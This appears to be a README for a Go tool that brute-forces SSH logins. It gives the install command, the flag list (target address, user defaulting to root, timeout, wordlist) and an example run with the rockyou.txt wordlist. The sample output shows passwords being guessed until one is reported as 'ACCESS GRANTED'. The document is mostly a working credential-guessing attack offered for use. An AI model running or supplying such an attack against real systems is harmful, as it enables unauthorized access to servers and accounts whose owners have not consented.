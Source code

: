 # sshbrute

This is a program written in Golang for ssh brute force attacks, needs improvements but works well and is fast.

```sh
go get github.com/aldenso/sshgobrute
```

```sh
sshgobrute --help
```

```txt
Usage of sshbrute:
  -a string
        indicate the target address (default "127.0.0.1:22")
  -d    debug mode, print logs to stderr
  -t duration
        set timeout for ssh dial response. do not set this too low! (default 300ms)
  -u string
        indicate user to use (default "root")
  -w string
        indicate wordlist file to use (default "wordlist.txt")
```

```sh
sshbrute -u username -t=200ms -a localhost:2222 -w rockyou.txt
```

will give you some nice colored output where FAIL is red and ACCESS GRANTED is green and the password try is blue. (can't be seen here but trust me)
```
target: username@localhost:2222
timeout: 200ms
wordlist: rockyou.txt
123456 FAILED
12345 FAILED
123456789 FAILED
password FAILED
iloveyou FAILED
princess FAILED
1234567 FAILED
rockyou FAILED
12345678 FAILED
abc123 ACCESS GRANTED
```

If the sshd is using "PasswordAuthentication no" it won't work.
